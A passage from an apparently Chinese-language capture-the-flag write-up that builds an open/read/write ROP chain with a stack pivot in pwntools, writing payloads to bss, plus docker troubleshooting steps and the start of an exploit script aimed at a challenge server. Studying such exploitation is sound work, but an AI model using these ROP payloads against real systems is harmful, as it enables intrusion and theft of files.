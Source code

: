         )
        r.sendline(file_addr + ROP_open)
        ```
        首先原本的0x20就拿來放檔案的位址，不過為甚麼後面還要再接著bss_addr_write呢?就和上面一樣，我們要寫別的rop payload上去，因為原本的位子不夠寫了，所以syscall_ret後接到main_fn，他會讀取我們寫入的rop payload到bss_addr_read的地方
    4. 寫入bss_addr_read
        我們要達成的目標是==read(fd, buf, 0x30)==，具體payload如下
        ```python
        ROP_read = flat(
            # Read the file
            # read(fd, buf, 0x30);
            bss_addr_write,
            pop_rax_ret, 0,
            pop_rdi_ret, 3, 
            pop_rsi_ret, bss_addr_read,
            pop_rdx_ret, 0x30,
            syscall_ret,
            main_fn
        )
        r.sendline(file_addr + ROP_read)
        ```
    5. 寫入bss_addr_write
        我們要達成的目標是==write(fd, buf, 0x30)==，具體payload如下
        ```python
        ROP_write = flat(
            # Write the file
            # write(1, buf, 0x30);
            bss_addr_write,
            pop_rax_ret, 1,
            pop_rdi_ret, 1,
            pop_rsi_ret, bss_addr_read,
            pop_rdx_ret, 0x30,
            syscall_ret,
            0
        )
        r.sendline(file_addr + ROP_write)
        ```

:::danger
執行的時候如果遇到local端可以run但server爛掉的情況，有可能是raw_input()造成的，可以先註解掉這些東西，如果還是遇到一樣的問題，可以開docker在裡面執行
```bash
$ docker-compose up -d
$ docker ps
$ docker exec -it {container name} /bin/bash
> apt update; apt upgrade -y; apt install curl binutils vim git gdb python3 python3-pip -y
> pip install pwntools -y
> python3 exp.py
```
:::
## Exploit - ROPchain + stack pivot
```python
from pwn import *

context.arch = 'amd64'

# r = process('./chal')
r = remote('10.113.184.121', 10054)
```